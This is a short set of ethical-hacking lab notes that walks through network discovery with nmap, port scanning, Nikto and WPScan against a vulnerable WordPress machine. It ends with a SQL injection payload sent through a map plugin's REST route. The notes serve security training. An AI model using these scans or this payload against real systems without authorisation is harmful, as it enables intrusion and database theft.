 # Ethical Hacking Playbook Notes

## Week 1
- Get IP address of vulnerable machine
  - `ip a` to get IP addresses of hacking machine
  - Review output to find the relevant network id
  - `nmap [ip]/[subnet-mask] -T5` to get list of everything on that network
  - Look at output - one of them will be the hacker devices and others will be the target devices. Find the target device
- NMAP of vulnerable device to see what it's got going on
  - `nmap -sV [ip addr] -T5 -p-` to scan all ports on the target device (this also banner grabs)
```
  PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
4343/tcp open  unicall?
```
- Review what is running
  - We see that 80/tcp is open so we can use Nikto to see what is running
- Nikto
  - `nikto -h http://[ip]`
  - From here, we can see that WordPress exists so we can use WP Scan to dig into it
- WP Scan
  - `wpscan --url http://[ip]`
  - From this we can see what plugins are on the WordPress. Open their readmes and check what their versions are then google it to find the vulnerable one.
- WP Rest Route
  - `http://loan.atlas.local/index.php?rest_route=/wpgmza/v1/markers&filter={}&fields=*from%20Information_schema.tables--%20-`